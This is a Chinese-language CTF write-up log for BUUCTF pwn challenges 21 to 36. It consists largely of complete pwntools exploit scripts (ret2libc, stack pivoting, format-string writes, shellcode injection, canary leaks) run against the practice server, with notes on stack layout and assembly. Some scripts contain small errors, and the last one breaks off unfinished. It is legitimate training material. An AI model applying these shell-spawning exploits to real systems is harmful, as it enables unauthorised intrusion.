







# buuctf刷题记录（21-40题）

## 21_铁人三项（第五赛区) _2018_rop

ret2libc

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',27252)
def dbg():
    gdb.attach(p)
    pause()
write_got = elf.got['write']
write_plt = elf.plt['write']
main = elf.sym['main']

payload = b'a'*0x88+b'b'*4+p32(write_plt)+p32(main)+p32(1)+p32(write_got)+p32(4)
p.sendline(payload)

write_addr = u32(p.recv(4))
libc  = LibcSearcher('write',write_addr)
libc_base = write_addr-libc.dump('write')
log.info("libc_base:"+hex(libc_base))

sys = libc_base+libc.dump('system')
binsh = libc_base+libc.dump('str_bin_sh')
payload2 = b'a'*0x88+b'b'*4+p32(sys)+p32(0)+p32(binsh)
p.sendline(payload2)
p.interactive()
```

## 22 bjdctf_2020_babystack2

看源码，发现输入长度是`int`型，而`read`读取的长度为`unsigned int`型，所以输入-1就可以了

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',27683)
def dbg():
    gdb.attach(p)
    pause()
p.sendline('-1')
p.recvuntil(b'name?\n')
payload = b'a'*0x10+b'b'*0x8+p64(0x400726)
p.sendline(payload)
p.interactive()
```

## 23 bjdctf_2020_babyrop

ret2libc

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',26423)
def dbg():
    gdb.attach(p)
    pause()
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
main=elf.sym['main']
pop_rdi = 0x400733

p.recvuntil(b'story!\n')
payload = b'a'*0x20+b'b'*0x8+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
p.sendline(payload)

puts_addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
libc = LibcSearcher('puts',puts_addr)
libc_base = puts_addr-libc.dump('puts')

p.recvuntil(b'story!\n')
sys = libc_base+libc.dump('system')
binsh = libc_base+libc.dump('str_bin_sh')
payload2 = b'a'*0x20+b'b'*0x8+p64(pop_rdi)+p64(binsh)+p64(sys)+p64(main)
p.sendline(payload2)
p.interactive()
```

## 24 jarviso_fm

看名字就知道是格式化字符串，x==4的时候就可以getshell

直接找到x的地址，用自带函数就行

```python
from pwn import *
p = process('./pwn')
payload = fmtstr_payload(11,{0x804a02c:0x4})
p.sendline(payload)
p.interactive()
```

## 25 jatviso_tell_me_something

这道题有一点小坑,一般都是将`ebp`压入栈，然后将`esp`的值赋值给`ebp`，然后`esp`减去对应的栈空间的大小

```assembly
push	ebp
mov		ebp, esp
sub		esp, 18h
```

但是这道题直接将`rsp`减去0x88，这里并没有把`rbp`压入栈，所以只需要0x88大小就可以覆盖返回地址了

```python
from pwn import *

from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',28402)
def dbg():
    gdb.attach(p)
    pause()

payload = b'a'*0x88+p64(0x400620)
p.recvuntil(':')
p.sendline(payload)
p.interactive()
```

## 26 ciscn_2019_es_2

发现溢出只有八字节，需要栈迁移

我觉得这位师傅讲的不错，[ciscn_2019_es_2](https://bbs.kanxue.com/thread-269163.htm)

```python
from pwn import * 
context.terminal = ['terminator','-x','sh','-c']
context.log_level='debug'
p=remote('node5.buuoj.cn',25052)
#p=process("./pwn")
elf = ELF('./pwn')
sys_addr=elf.sym['system']
leave_ret=0x080484b8
p.recvuntil("name?\n")
payload1= 0x20*"a"+"b"*0x8
p.send(payload1)
p.recvuntil("b"*0x8)
ebp_addr=u32(p.recv(4))

log.info('ebp:'+hex(ebp_addr))

payload2 = (b"aaaa"+p32(sys_addr)+b'aaaa'+p32(ebp_addr-0x28)+b'/bin/sh').ljust(0x28,b'\x00')+p32(ebp_addr-0x38) + p32(leave_ret)
p.send(payload2)
p.interactive()
```

### 栈迁移

`vul`函数看一下

```c
int vul()
{
  char s[40]; // [esp+0h] [ebp-28h] BYREF

  memset(s, 0, 0x20u);
  read(0, s, 0x30u);
  printf("Hello, %s\n", s);
  read(0, s, 0x30u);
  return printf("Hello, %s\n", s);
}
```

可以看到`read`大小为0x30，但是s变量和ebp的距离是0x28。八字节的溢出只够覆盖`ebp`和`ret`，不可以做到直接修改`hack`函数里system的参数。**所以我们利用`leave_ret`挟持esp进行栈迁移**

若无限制，构造的栈长这样：

|            | /bin/sh      |
| ---------- | ------------ |
|            | /bin/sh_addr |
|            | 0xdeadbeef   |
| **return** | system_addr  |
| **ebp**    | aaaa         |
| **s**      | 垃圾数据     |
| **esp**    |              |

但是有限制，所以通过`leave`转移到别处，因此将`ebp`的内容改为`s`的地址，`return`改为`leave`的地址

执行两次leave之后栈的样子

| return  | leave_ret_addr |
| ------- | -------------- |
| **ebp** | s_addr         |
|         |                |
| **esp** |                |
| **s**   | 垃圾数据       |

一般leave命令后面都会跟着ret命令，也是必须要有的。此处如果继续执行ret命令就会返回到esp所指向内容填写的地址，那么接下来就很好办了，我们构造栈的内容

| **return** | leave_ret_addr |
| ---------- | -------------- |
| **ebp**    | aaaa           |
|            |                |
|            | /bin/sh        |
|            | /bin/sh_addr   |
|            | 0xdeadbeef     |
| **esp**    | system_addr    |
| **s**      | 垃圾数据       |

当然此处我们还有一个问题就是'/bin/sh'的地址我们不知道。我们可以通过泄露原来ebp的值来确定，我们将此地址叫做addr，以免和ebp寄存器混淆

```c
int vul()
{
    char s[40]; //	[esp+0h][ebp-28h]BYREF
    
    memset(s, 0x20u);
    read(0, s, 0x30u);
    printf("Hello, %s\n", s);
    read(0, s, 0x30u);
    return printf("Hello, %s\n", s);
}
```

可以看到有一个printf函数

printf函数会打印s字符串，且遇到0就会停止打印，所以如果我们将addr之前的内容全部填充不为0的字符，就能将addr打印出来，我们通过地址再计算出addr到s的距离，我们就可以通过addr来表示`/bin/sh`所在的地址了。

**我们先通过第一个`read`传入`payload`，然后通过`printf`打印出`addr`的值,然后通过第二个`read`函数构造栈转移，执行`systeam('/bin/sh')`**

## 27 HarekazeCTF2019 baby_rop2

ret2libc，但是用`printf`输出`read`函数的地址

```python
from pwn import *
from LibcSearcher import LibcSearcher
#p=process('./pwn')
p=remote('node5.buuoj.cn',25118)
elf=ELF('./pwn')

read_got=elf.got['read']
printf_plt=elf.plt['printf']
main_addr=elf.sym['main']
format_addr=0x400770	# 原本输出字符串的地址
pop_rdi = 0x400733
pop_rsi_r15 = 0x400731

payload=b'a'*0x20+b'b'*0x8	# 设置溢出覆盖返回地址
payload+=p64(pop_rdi)+p64(format_addr)	# pop_rdi弹入原本字符串
payload+=p64(pop_rsi_r15)+p64(read_got)+p64(0)
# ret到pop_rsi_r15，将read的got表地址弹入rsi，随便一个东西弹入r15
payload+=p64(printf_plt)+p64(main_addr)
# ret到printf的plt表地址，也就是调用plt，然后返回main

p.sendlineafter(b"name?",payload)
p.recvuntil(b'!\n')
read_addr=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
libc=LibcSearcher("read",read_addr)
libc_base=read_addr-libc.dump('read')
log.info("libc_base:"+hex(libc_base))

sys_addr=libc_base+libc.dump("system")
binsh_addr=libc_base+libc.dump("str_bin_sh")
payload2=b'a'*40+p64(pop_rdi)+p64(binsh_addr)+p64(sys_addr)+p64(0)
p.sendline(payload2)
p.interactive()
```

这道题远程直接`cat flag`不能用，先`find -name "flag"`找到flag放在了`./home/babyrop2/flag`里，再`cat`

## 28 picoctf_2018_rop chain

很简单的溢出、改数据，拿flag

注意里面这一句

```
if (win1 && win2 && a1 == -559039827)
```

是`win1和win2`,`a1和-559039827`,得到的结果再`&&`

```python
from pwn import *
#p = process('./pwn')
p = remote('node5.buuoj.cn',26736)
win1_addr = 0x80485CB
win2_addr = 0x80485D8
flag = 0x804862B
pop_ebp = 0x80485d6
payload = b'a'*0x18+b'b'*0x4+p32(win1_addr)+p32(win2_addr)+p32(flag)+p32(0xBAAAAAAD)+p32
(0xDEADBAAD)
# 先返回到win1使得win1 = 1
# 然后返回win2，因为要与ebp+8比较，所以中间先加一个flag_addr
# 比较好了直接返回到flag_addr
# 然后与ebp+8进行比较，正好夹了一个0xBAAAAAAD
p.sendline(payload)
p.interactive()
```

## 29 pwn2_sctf_2016

先输入一个负值就可以溢出了，跟正常***libc***没区别，~~就是我的LibcSearcher没找到对应的libc，看网上师傅的博客有说选13，但是我的只显示到9~~

*破案了，LibcSearcher会随机roll，看运气(有点过于艺术了)*

*roll了半个小时，靶机都过期了，算了，本地过了就行了，本地选5*

```python
from pwn import *
from LibcSearcher import *
from time import sleep
context(os='linux', arch='arm64', log_level='debug')
r = remote("node5.buuoj.cn",26858)
elf = ELF('./pwn')
printf_plt = elf.plt['printf']
printf_got = elf.got['printf']
start_addr = elf.sym['main']
r.recvuntil('read?')
r.sendline('-1')
r.recvuntil("data!\n")
payload = b'a' * (0x2c+4) + p32(printf_plt) + p32(start_addr) + p32(printf_got)
r.sendline(payload)
r.recvuntil('\n')
printf_addr=u32(r.recv(4))
libc = LibcSearcher('printf',printf_addr)

libc_base = printf_addr-libc.dump('printf')
system_addr = base+libc.dump('system')
bin_sh = base + libc.dump('str_bin_sh')
r.recvuntil('read?')
r.sendline('-1')
r.recvuntil("data!\n")
payload = b'a'*(0x2c+4)+p32(system_addr)+p32(start_addr)+p32(bin_sh)
r.sendline(payload)
r.interactive()
```

## 30 jarvisoj_level3

***ret2libc***

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='i386',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc-2.19.so")
#p = process('./pwn')
p = remote('node5.buuoj.cn',28662)
def dbg():
    gdb.attach(p)
    pause()
write_plt = elf.plt['write']
write_got = elf.got['write']
main = elf.sym['main']
payload = b'b'*0x88+b'b'*0x4+p32(write_plt)+p32(main)+p32(1)+p32(write_got)+p32(0x4)
p.recvuntil('Input:\n')
p.sendline(payload)
write_addr = u32(p.recv(4))
libc = LibcSearcher('write',write_addr)
libc_base = write_addr-libc.dump('write')
log.info("libc_base:"+hex(libc_base))

sys = libc_base+libc.dump('system')
binsh = libc_base+libc.dump('str_bin_sh')
payload = b'b'*0x88+b'b'*0x4+p32(sys)+p32(0)+p32(binsh)
p.sendline(payload)
p.interactive()
```

## 31 ciscn_2019_s_3

施工中......

## 32 wustctf2020_getshell

***ret2text***

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',25069)
def dbg():
    gdb.attach(p)
    pause()

payload = b'b'*0x18+b'b'*0x4+p32(0x8048524)
p.sendline(payload)
p.interactive()
```

## 33 ez_pz_hackover_2016 (动态调试入门)

一道很好的***动态调试***入门题

检查保护

```shell
[*] '/home/pwn/pwn/buuctf/33/pwn'
    Arch:       i386-32-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x8048000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```

保护全关，有可读可写可执行段，可能是`shellcode`

看下题目



`memchr`函数在网上搜索一下就好，这里不做详细介绍，主要是看到最后有一个比较，如果在`\n`之前为`crasheme`，则可以进入vuln函数



明显的溢出漏洞，`dest`仅有0x32字节，但是可以读入0x400字节，往里面写入shellcode

**思路**

往s里写入shllcode，执行vuln函数后让dest溢出，将返回地址修改为shellcode的地址

**实施**

但是dest是栈上的数据，一般情况下我们是找不到我们写入的地址的，那就没办法执行shellcode的地址。

执行一次程序可以发现其实程序一开始就把我们输入的地址给我们了

```c
  printf("Yippie, lets crash: %p\n", s);
```

那么我们算出shellcode和我们输入的起始位置的偏移，就可以得到shellcode的地址

先写一个测试脚本

```python
from pwn import *
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
p=process('./pwn')
context.log_level='debug'

gdb.attach(p,'b *0x8048600')#利用gdb动调，在0x8048600处下了个断点

p.recvuntil('crash: ')
stack=int(p.recv(10),16)
print (hex(stack))

payload='crashme\x00'+'aaaaaa'#前面的crashme\x00绕过if判断
      #后面的aaaa是测试数据，随便输入的，我们等等去栈上找它的地址

pause()
p.sendline(payload)
pause()
```

`0x8048600`是一个`nop`指令的地址，在这里下一个断点，方便调试



*这里输入地址的结尾是abc*

按c执行下一步，然后输入`stack 50`看一下栈布局



**解决一下shellcode在栈上的位置（填充多少数据合适）**

可以看到我们输入的crashme有一部分在距离`esp`0x24处，因为没有对齐的原因，cr在上面一行，对应0x63 0x72(小端序)

然后ebp在0x38处，我们输入的参数0x22处（虽然左边标的是0x20，但是有两个字节不是我们输入的，真正输入的是0x72 0x63)，所以ebp距离我们输入点的距离是`0x38-0x22=0x16`，而shellcode是写在ebp后面的，也就是`0x16+0x4`的地方

```python
payload = b'crashme\x00'+b'a'*(0x16-8+4)+p32(addr)
```

> crashme\x00占8个字节减去，ebp占4个字节要覆盖

**解决shllcode的地址问题**

上面已经将我们的输入地址打印出来了（结尾是`abc`，在ebp下面）

既然我们只有一次输入机会，那么我们构造完返回地址之后直接跟着shellcode好了，所以直接把地址返回到ebp+8的位置就行

`0xfff9eabc-0xfff9eaa0=0x1c`，所以最终地址偏移为0x1c

最后得到exp

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='i386',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
#elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
def dbg():
    gdb.attach(p)
    pause()

p=remote('node5.buuoj.cn',26858)
p.recvuntil('crash: ')
stack_addr=int(p.recv(10),16)
shellcode=asm(shellcraft.sh())

payload=b'crashme\x00'+b'a'*(0x16-8+4)+p32(stack_addr-0x1c)+shellcode
p.sendline(payload)

p.interactive()
```


## 34 jarvisoj_level3_x64

64位的***`ret2libc`***从栈传参变成了寄存器传参

```python

from pwn import *
from LibcSearcher import *
p = remote('node5.buuoj.cn',28910)
#p=process('./pwn')
elf = ELF('./pwn')
rdi_add = 0x4006b3
rsir15_add = 0x4006b1
write_plt = elf.plt['write']
write_got = elf.got['write']
vul_add = elf.symbols['vulnerable_function']

payload = b'a'*0x80 + b'a'*0x8
payload1=payload+p64(rdi_add)+p64(0x1)+p64(rsir15_add)+p64(write_got)+b'deadbeef'+p64(write_plt)+p64(vul_add)
p.recvuntil("Input:\n")
p.sendline(payload1)
write_addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
libc=LibcSearcher('write',write_addr)
libc_base=write_addr-libc.dump('write')
sys_add = libc_base + libc.dump('system')
binsh_add =libc_base+libc.dump('str_bin_sh')
payload2 = payload + p64(rdi_add) + p64(binsh_add) + p64(sys_add)
p.sendline(payload2)
p.interactive()
```

## 35 mrctf2020_shellcode

***ret2shellcode***

ida没法反编译了，这次读汇编（其实只要传入shellcode就行）

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',26947)
def dbg():
    gdb.attach(p)
    pause()

shellcode = asm(shellcraft.sh())
p.sendline(shellcode)
p.interactive()
```

接下来看一下汇编



```assembly
buf= byte ptr -410h	;buf 表示相对于基指针 rbp 偏移量为 -410h 的一个字节内存位置
var_4= dword ptr -4	;var_4 表示相对于基指针 rbp 偏移量为 -4 的一个双字（32 位，4 字节）内存位置
```

```assembly
push    rbp
mov     rbp, rsp
sub     rsp, 410h
```

这里是开辟0x410字节空间的栈

中间一部分应该是缓冲区设置，没看懂，但也不需要看懂，跳过

```assembly
lea     rdi, s          ; "Show me your magic!"
call    _puts
```

- `lea rdi, s`：将字符串 `"Show me your magic!"` 的地址加载到 `rdi` 寄存器中，作为 `_puts` 函数的参数。

- `call _puts`：调用 `_puts` 函数输出字符串，并自动添加换行符。

```assembly
lea     rax, [rbp+buf]
mov     edx, 400h       ; nbytes
mov     rsi, rax        ; buf
mov     edi, 0          ; fd
mov     eax, 0
call    _read
```

- `lea rax, [rbp+buf]`：计算相对于基指针 `rbp` 偏移量为 `-410h` 的内存地址，并将其加载到 `rax` 寄存器中，作为读取数据的缓冲区地址。
- `mov edx, 400h`：将读取的最大字节数 `400h` 加载到 `edx` 寄存器中。
- `mov rsi, rax`：将缓冲区地址传递给 `_read` 函数的第二个参数。
- `mov edi, 0`：将文件描述符 `0`（标准输入）传递给 `_read` 函数的第一个参数。
- `mov eax, 0`：将返回值寄存器 `eax` 清零。
- `call _read`：调用 `_read` 函数从标准输入读取最多 `400h` 字节的数据到缓冲区中。

```assembly
mov     [rbp+var_4], eax
cmp     [rbp+var_4], 0
jg      short loc_11D6
```

- `mov [rbp+var_4], eax`：将 `_read` 函数的返回值（实际读取的字节数）保存到相对于基指针 `rbp` 偏移量为 `-4` 的内存位置（var_4)
- `cmp [rbp+var_4], 0`：比较实际读取的字节数是否为 `0`，用于后续的条件判断。
- `jg`基于前面 `cmp [rbp+var_4], 0` 指令设置的标志位进行判断。`[rbp+var_4]` 中存储的是 `_read` 函数实际读取的字节数，如果这个值大于 0，程序就会跳转到 `loc_11D6` 标签处继续执行；如果不满足条件（即读取的字节数小于等于 0），则继续顺序执行下一条指令。

**若失败，即无读入（左边）**

```assembly
mov     eax, 0
jmp     short locret_11E4
```

- `mov eax, 0`：将寄存器 `eax` 赋值为 0。在很多系统调用和函数返回中，`eax` 通常用于存储返回值，这里将其置为 0 表示程序以正常状态退出或者操作失败的返回码。
- `jmp short locret_11E4`：无条件跳转到 `locret_11E4` 标签处，跳过后续代码直接进入函数返回流程。

**若成功，即有读入（右边）**

```assembly
loc_11D6:                               ; CODE XREF: main+78↑j
lea     rax, [rbp+buf]
call    rax
mov     eax, 0
```

- `loc_11D6`：这是一个代码标签，当满足 `jg` 跳转条件时会跳转到这里。
- `lea rax, [rbp+buf]`：`lea` 是加载有效地址指令，这里将相对于基指针 `rbp` 偏移量为 `-410h`（前面定义的 `buf`）的内存地址加载到 `rax` 寄存器中。
- `call rax`：这是一个间接调用指令，它会将程序控制权转移到 `rax` 寄存器所指向的地址处执行代码。
- `mov eax, 0`：同样将寄存器 `eax` 赋值为 0，可能用于表示函数的正常返回状态。

**综上，可以很清楚的发现，直接往buf里面写入代码之后函数就会直接执行buf里的代码，所以直接注入shellcode就行**

## 36 bjdctf_2020_babyrop2

***格式化字符串+canary绕过+ret2libc***

我记得写过canary绕过的wp，忘了在哪了，再写一份吧

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',26391)
def dbg():
    gdb.attach(p)
    pause()
put_plt=elf.plt['puts']
put_got=elf.got['puts']
pop_rdi=0x0400993
main_addr=elf.symbols['main']
vuln_addr=0x400887

p.sendlineafter('help u!\n',b'%7$p')
p.recvuntil(b'0x')
canary = int(p.recv(16),16)

payload = p64(canary)
payload = payload.rjust(0x20,b'a')+b'a'*8+p64(pop_rdi)+p64(put_got)+p64(put_plt)+p64(vul
n_addr)
p.sendlineafter(b'story!\n',payload)
put_addr=u64(p.recv(6).ljust(8,b'\x00'))

libc=LibcSearcher('puts',put_addr)
libcbase=put_addr-libc.dump("puts")
system_addr=libcbase+libc.dump("system")
binsh_addr=libcbase+libc.dump("str_bin_sh")

payload = p64(canary)
